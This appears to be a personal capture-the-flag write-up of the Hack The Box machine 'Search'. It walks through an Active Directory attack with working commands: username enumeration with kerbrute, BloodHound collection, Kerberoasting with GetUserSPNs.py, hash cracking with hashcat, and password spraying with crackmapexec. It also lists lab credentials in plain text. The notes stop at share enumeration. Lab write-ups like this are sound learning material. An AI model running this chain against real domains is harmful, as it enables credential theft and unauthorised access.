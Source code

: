 # Remote
```
10.10.11.129
```


Hostname: `RESEARCH`
Domain name: `search.htb`

kerbrute found some valid user names:

```
administrator@search.htb
research@search.htb
```

Hope Sharp
IsolationIsKey?

Using different permutations of her name in a wordlist combined with `kerbrute` we were able to find a valid username of `hope.sharp`

![[Pasted image 20220712230945.png]]

Then we run bloodhound

```
bloodhound-python -u hope.sharp -p "IsolationIsKey?" -d search.htb -ns 10.10.11.129
```

we then pull this into bloodhound and find an account that is vulnerable to AS-REP Roasting

```
GetUserSPNs.py search.htb/hope.sharp:"IsolationIsKey?" -outputfile web_svc_kerberos
```

and then crack the hash

```
hashcat web_svc_kerberos /usr/share/wordlists/rockyou.txt
```

Which give us the following set of creds.

```
web_svc
```

```
@3ONEmillionbaby
```

Now we have a list of users in bloodhound. We did some magic with powershell to extract the usernames:

start powershell
```
pwsh
```

import the users.json file
```
$json = gc ./20220712232201_users.json | ConvertFrom-Json
```


pull out the username and strip the `@search.htb`, save this to a file `users-ad.txt`
```
$json.data.Properties.name |%{$_.split("@")[0]} | Sort-Object -Unique > users-ad.txt
```

Then we check the username list for password reuse:

```
crackmapexec smb search.htb -u users-ad.txt -p "@3ONEmillionbaby"
```

It looks like `EDGAR.JACOBS` is using the same password.

We then use bloodhound to see what transitive object controlls this user has

![[Pasted image 20220713000236.png]]

We see Edgar has access to the `Helpdesk` share

```
crackmapexec smb search.htb -u edgar.jacobs -p "@3ONEmillionbaby" --shares
```

![[Pasted image 20220713000621.png]]

